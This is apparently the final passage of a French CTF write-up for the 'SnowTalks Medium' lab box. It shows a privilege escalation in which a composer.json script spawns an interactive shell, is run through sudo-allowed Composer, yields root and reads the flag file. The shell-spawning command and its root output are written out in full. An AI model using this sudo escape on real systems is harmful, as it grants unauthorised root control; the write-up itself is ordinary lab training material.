 En fouillant dans [la documentation](https://getcomposer.org/doc/03-cli.md#run-script) je note deux utilisations intéressantes :  

* run-script : To run scripts manually you can use this command, give it the script name and optionally any required arguments.
* exec : Executes a vendored binary/script. You can execute any command and this will ensure that the Composer bin-dir is pushed on your PATH before the command runs.

La documentation décrit aussi comment on peut définir [les scripts via une liste de hooks](https://getcomposer.org/doc/articles/scripts.md#defining-scripts).  

J'avoue que j'ai préféré me baser sur le GTFObin pour avoir un exemple tout fait :  

```plain
coffeez@snow-med:~$ echo '{"scripts":{"x":"/bin/sh -i 0<&3 1>&3 2>&3"}}' > composer.json    
coffeez@snow-med:~$ sudo /usr/local/bin/composer --working-dir=. run-script x 
[sudo] password for coffeez:  
Do not run Composer as root/super user! See https://getcomposer.org/root for details 
Continue as root/super user [yes]? yes 
> /bin/sh -i 0<&3 1>&3 2>&3 
# id 
uid=0(root) gid=0(root) groups=0(root) 
# cd /root 
# ls 
root.txt  snap 
# cat root.txt 

███████ ███    ██  ██████  ██     ██ ████████  █████  ██      ██   ██ ███████   
██      ████   ██ ██    ██ ██     ██    ██    ██   ██ ██      ██  ██  ██        
███████ ██ ██  ██ ██    ██ ██  █  ██    ██    ███████ ██      █████   ███████   
     ██ ██  ██ ██ ██    ██ ██ ███ ██    ██    ██   ██ ██      ██  ██       ██   
███████ ██   ████  ██████   ███ ███     ██    ██   ██ ███████ ██   ██ ███████   

    ██████   ██████  ██████  ██████                                             
         ██ ██  ████      ██      ██                                            
     █████  ██ ██ ██  █████   █████                                             
    ██      ████  ██ ██      ██                                                 
    ███████  ██████  ███████ ███████                                            

███    ███ ███████ ██████  ██ ██    ██ ███    ███     ██████   ██████  ██   ██  
████  ████ ██      ██   ██ ██ ██    ██ ████  ████     ██   ██ ██    ██  ██ ██   
██ ████ ██ █████   ██   ██ ██ ██    ██ ██ ████ ██     ██████  ██    ██   ███    
██  ██  ██ ██      ██   ██ ██ ██    ██ ██  ██  ██     ██   ██ ██    ██  ██ ██   
██      ██ ███████ ██████  ██  ██████  ██      ██     ██████   ██████  ██   ██  

    ██████   ██████   ██████  ████████ ███████ ██████                           
    ██   ██ ██    ██ ██    ██    ██    ██      ██   ██                          
    ██████  ██    ██ ██    ██    ██    █████   ██   ██                          
    ██   ██ ██    ██ ██    ██    ██    ██      ██   ██                          
    ██   ██  ██████   ██████     ██    ███████ ██████                           

I hope you enjoyed this box. 

Twitter:  @iamv1nc3nt
```

Bon CTF mais on ne pense jamais à partir sur le scénario de l'écoute du réseau.

*Published February 08 2022 at 21 10*